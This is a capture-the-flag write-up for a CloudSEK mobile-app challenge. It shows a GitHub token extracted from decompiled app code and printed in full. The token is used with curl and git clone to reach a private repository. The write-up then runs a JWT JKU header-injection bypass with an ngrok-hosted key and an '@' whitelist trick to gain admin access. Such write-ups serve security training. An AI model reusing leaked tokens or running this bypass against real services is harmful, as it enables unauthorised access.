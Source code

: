 **Challenge Name : CSK-05-2024: Autograph**

**Points** : 50

**Description** : 

In continuation to the previous challenge, As now your team has identified the correct IAV(mobile application) that led to the breach, Your task is to analyse it, hack your way in and get the flag.

For your convience, The mobile application is already uploaded on BeVigil for analysis.

Your task is to perform the root cause analysis by reproducing the security vulnerability. Identify and exploit the security vulnerability to obtain the flag.

**Steps to solve** : 

Step 1: Read the description. This has some parts that are the same as the first challenge, where we have to visit BeVigil.com and search for the bank name that we got in the second challenge, or we can directly put it in the URL like this:

 https://bevigil.com/report/com.shbank.transferapp

![first](image.png)

![strings](image-1.png)

![git](image-2.png)

![token](image-3.png)

https://bevigil.com/src/com.shbank.transferapp/source%2Fsources%2Fcom%2Fshbank%2Ftransferapp%2FRepoFetch.java

Step 2: After searching all the files, I found a GitHub token which we can use to access private repositories on GitHub. For that, I used these commands:

`curl -H "Authorization: Bearer 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" https://api.github.com/user/repos`

![curl](image-4.png)

`git clone https://skyhighbank-staging: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@github.com/skyhighbank-staging/Transfer-API`

Step 3: The GitHub repository contains the source code for the webpage, which includes the IP and port of the live web server. As mentioned in the hints, the vulnerability is JKU header injection. There is a PortSwigger lab that is similar, with the only difference being the IP whitelist. To bypass that, you have to use **@**.



![clone](image-5.png)



Step 4: To get admin access, I watched a YouTube video by Intigriti, which helps to bypass JKU.

https://youtu.be/hMRdMmll8Bk?si=GCuJ5nBVi6bHM2QW

Step 5: I started an ngrok server to host a JSON key on the server and set up a Python HTTP server.






![ngrok](image-6.png)



![server](image-7.png)





JSON payload : 

`{
    "mykeys": [{
        "kty": "RSA",
        "e": "AQAB",
        "use": "sig",
        "kid": "f15a2c54-cfab-4e7f-ab17-a6a4ab11d575",
        "alg": "RS256",
        "n": "yiYEMHxOJqYJWLe83QV-71ehVpqZL5cIN3T79hMpnDUxPOhQPRPlO19BePs1ymMdsJQeXQYj1GbsTwPjETKVGT6FBWsOxQ3qexN3UwbAFUORV9U67GI30iUbEn-G_cQ7AbwCrQNs2J_lO7M69w419joKucratWbW4sXe1od3IjaP-2g2R08PE3SKZKCaDt39ZauIWGTcZZsykQ6OPiX1LAkpji8A8PY3zSPSvA9gzN7RVrfQlLwHkOgzfqMHhYI-Wn4jmbQJZGwF5TxQIBTqL42H1PxMW-Ahvq7WuR52b_mtJyONulvsbktMQQswFf-gaDk3qPgNEfNJpSG8HZoFvQ"
    }]

}`

Step 6: After this, using @, I placed the ngrok link after the original site link like this and changed "guest" to "admin."

![burp](image-8.png)

After sending this request, I got the flag.

![flag](image-9.png)


**Flag === CloudSEK{jku_4r3_fun}**